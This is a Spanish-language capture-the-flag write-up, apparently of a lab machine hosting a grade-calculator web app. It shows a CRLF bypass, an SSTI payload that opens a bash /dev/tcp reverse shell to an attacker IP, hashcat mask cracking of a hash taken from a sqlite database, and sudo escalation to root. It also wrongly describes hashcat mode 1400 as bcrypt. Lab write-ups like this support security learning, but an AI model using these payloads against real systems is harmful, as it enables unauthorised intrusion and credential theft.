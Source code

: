 

# PortScan
____

```bash
nmap -sCV -p22,80 10.10.11.253 

# Nmap 7.94SVN scan initiated Sat Jun  1 17:04:27 2024 as: nmap -sCV -p22,80 -oN targeted 10.10
Nmap scan report for 10.10.11.253
Host is up (0.068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  1 17:04:36 2024 -- 1 IP address (1 host up) scanned in 9.94 seconds
```


# Sitio Web
![[Pasted image 20240601185515.png]]

Vemos que a simple vista tiene 3 posibles directorios, empiezo a indagar en ellos... empezando por el **About**.
![[Pasted image 20240601185607.png]]

Viendo dos nombres del equipo, tanto de la desarrolladora como la profesora, que quizás me sirvan mas adelante, me los guardo... ahora entro a la **calculadora de nota.**

![[Pasted image 20240601185748.png]]

empiezo a poner inputs, respetando el máximo & tratar de llevar a cabo una ejecución de comando y no logro nada, decido usar **BurpSuite** para ver la **DATA** como se tramita & tratar poder ejecutar comandos, o intentarlo...

![[Pasted image 20240601190554.png]]

detectaba el **input malicioso**, intente **bypassearlo** de varias manera, no logre nada exitoso por un rato, pero finalmente...

descubrí lo que es el **CRLF**, que son secuencias de caracteres especiales en el protocolo **HTTP** para iniciar una nueva **línea**, pudiendo así crear una nueva línea así que empecé a probar payload típicos de **SSTI** contemplados en [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

Solo me funcionaron lo que empiezan con **<%%>**, pero **URLencodeando** todo, debido al **CRLF** para nueva línea que esta representado como:_ **"%0a"**.
![[Pasted image 20240601191905.png]]
```bash
T%0a<%25%3d7*7%25>
```
![[Pasted image 20240601191925.png]]
esta haciendo la multiplicación, así que ahora busco payload's para llevar a cabo un **RCE** & obtener nuestra Reverse Shell.

Nos ponemos en escucha con **Netcat**:
```bash
nc -nlvp PORT
```

![[Pasted image 20240601192558.png]]

```bash
T%0a<%25%3dsystem("bash+-c+'bash+-i+>%26/dev/tcp/IP/PORT+0>%261'")%3b%25>
```

![[Pasted image 20240601192731.png]]

Y ganamos acceso a la maquina como **Susan**, ya quedaría darle **tratamiento a la TTY,** que sino sabes como [((HAZ CLICK AQUi))](https://4uli.github.io/tratamiento-tty/#)

# Escalada de Privilegios

Empecé a indagar como **Susan** en el sistema, encontrando así el siguiente mail que recibió Susan.

 ![[Pasted image 20240601193340.png]]
básicamente, le estaban sugiriendo una contraseña, que empiece con el nombre, barra baja, el nombre al revés, barra baja números de 1 a 1 millón.

de primeras no me pareció interesante, seguí indagando...

descubrí este directorio, con esto:
![[Pasted image 20240601193551.png]]
una base de datos en **sqlite** formato 3, decidí conectarme a esta db, aunque ya podía ver los datos, pero no estaba seguro...

![[Pasted image 20240601193834.png]]

viendo así los usuarios & un **hash**, que seguramente sea la contraseña, tenemos una pista... que fue el correo que vimos anteriormente que recibió Susan, por lo que podemos intuir al menos los primeros caracteres de la contraseña, así que intento fuerza bruta con **Hashcat** en mi windows y con esta pista.

```bash
.\hashcat.exe -a 3 -m 1400 hash.txt "susan_nasus_?d?d?d?d?d?d?d?d?d" 
```

**-a 3:** este parámetro indica que el ataque será de modo "mascara."
**-m 1400**: indica el modo del hash, en este caso bcrypt.
**-hash.txt:** aquí dentro esta el hash que vimos en la base de datos.
**-"susan_nasus_?d?d?d?d?d?d?d?d?d"** : indica el inicio de la posible contraseña con la pista del correo, que es el nombre normal, al revés, y luego 9 posibles números.
![[cracking.png]]

obteniendo así la que podría ser la contraseña para Susan, así que procedo a probar para ver los **SUDOERS**.

![[Pasted image 20240601195051.png]]

Puedo ejecutar como quien sea lo que sea, así que me convierto en **ROOT** ya sabiendo las credenciales de **Susan**.

![[Pasted image 20240601195153.png]]
